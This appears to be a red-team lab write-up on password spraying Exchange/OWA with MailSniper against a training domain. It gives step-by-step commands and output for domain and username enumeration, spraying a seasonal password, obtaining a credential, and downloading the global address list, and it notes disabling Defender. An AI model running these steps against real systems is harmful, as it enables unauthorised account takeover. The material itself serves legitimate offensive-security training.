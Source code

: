```yaml
---
description: 09/01/2025
---
```


# ✅ Password Spraying

## What is it?

This is a type of brute force attack that attempts to gain unauthorized access to multiple user accounts by trying a small list of common passwords. These passwords are usually passwords that users are notorious for using.

{% hint style="info" %}
Be careful when utilizing this tactic as you can cause lockouts to local accounts.
{% endhint %}

## Localizations (e.g. Autumn vs. Fall)

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. These are what users use and cycle between password updates depending on domain user policy. For example possible common user passwords could be MonthYear (`August2025`) or SeasonYear (`Summer2016`).

## Tooling, Tactics, Techniques, and Procedures (TTPs)

Two excellent tools for password spraying against Office 365 and Exchange are [`MailSniper`](https://github.com/dafthack/MailSniper) and [`SprayingToolkit`](https://github.com/dafthack/MailSniper).&#x20;

### MailSniper

**In order to begin a Password Spray via `MailSniper`, we must first invoke it:**

```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

{% hint style="info" %}
Microsoft Defender Real Time protection must be disabled natively without modification to this script if you want it to run correctly.
{% endhint %}

### Enumerate NetBIOS Names of Target Domain

Remember, from external reconnaissance, we were able to obtain this information on the mail server (`mail.cyberbotic.io`).&#x20;

* This is important as we will use it to further enumerate additional information required to gain initial access to our target AD environment

**We can achieve this via `Invoke-DomainHarvestOWA`:**

```
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

[*] Harvesting domain name from the server at mail.cyberbotic.io
The domain appears to be: CYBER or cyberbotic.io
```

### Finding Valid Usernames from List of Users Enumerated via External Recon

The following list of users was enumerated from `https://cyberbotic.io`.

**Here are the following enumerated names:**

```
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

We can also pair this effort with [`namemash.py`](https://gist.github.com/superkojiman/11076951), which is a Python script that takes a person's full names and transforms it into possible username permutations (e.g. FirstLast, firstLast, First.Last, etc.).

**We can do this by:**

```
/namemash.py names.txt > possible-names.txt
```

Our new file, `possible-names.txt`, now contains all possible username permutations of our users within `names.txt`.

**Use `head` to view the first few:**

```
head -n 5 possible-names.txt
```

<figure><img src="../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
:bulb: Note: We could potentially skip this step if we knew the email address format from somewhere like hunter.io.
{% endhint %}

### `Invoke-UsernameHarvestOWA` Usage

This module/PS script utilizes a timing attack to validate which (if any) of these usernames are valid.&#x20;

**Switch back to your PowerShell session for this:**

{% code overflow="wrap" %}
```
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```
{% endcode %}

**Output:**

```
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
763                      cyberbotic.io\OkAJfr
738                      cyberbotic.io\UGVuQv
750                      cyberbotic.io\ztHyFf
749                      cyberbotic.io\dsLWDY
762                      cyberbotic.io\YgFBIP

         Baseline Response: 752.4

Threshold: 460.44
Response Time (MS)       Domain\Username
[*] Potentially Valid! User:cyberbotic.io\bfarmer
[*] Potentially Valid! User:cyberbotic.io\iyates
[*] Potentially Valid! User:cyberbotic.io\jking
[*] A total of 3 potentially valid usernames found.
Results have been written to .\Desktop\valid.txt.
```

### Password Spraying w/ `MailSniper`

`MailSniper` can spray passwords against the valid account(s) identified using Outlook Web Access (OWA), Exchange Web Services (EWS), and Exchange ActiveSync (EAS).

**Password Spray:**

{% code overflow="wrap" %}
```
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```
{% endcode %}

**Awesome, we can see that we do indeed have a user identified to be using a localization-based, weak password:**

<figure><img src="../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

The user's credentials successfully obtained via `MailSniper` **Password Spraying**:

```
iyates:Summer2022
```

{% hint style="info" %}
:warning: Remember, this should not be performed in the real world. Too many authentication attempts can count towards the domain lockout policy and lock out the user account. This is often a bad thing to do in engagements and is often out of scope unless mentioned otherwise.
{% endhint %}

### Using `MailSniper` w/ Valid Credentials to Download Global Address List

**Now that we have valid creds, we can authenticate to the target mail server of domain we are targeting and obtain the rest of the emails within the domain:**

{% code overflow="wrap" %}
```
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

**Email Addresses obtained:**

```
Administrator@cyberbotic.io
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
nlamb@cyberbotic.io
iyates@cyberbotic.io
```

Now that we have more names, we can go back and do another round of spraying against them if desired (_<mark style="color:yellow;">**ESPECIALLY if they weren't found during our initial recon phase**</mark>_).

## Confirming Impact of Weak Password

With successful authentication, proven with `MailSniper`, we can now authenticate as user, `iyates@cyberbotic.io:Summer2022` on the Microsoft Outlook portal.

<figure><img src="../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
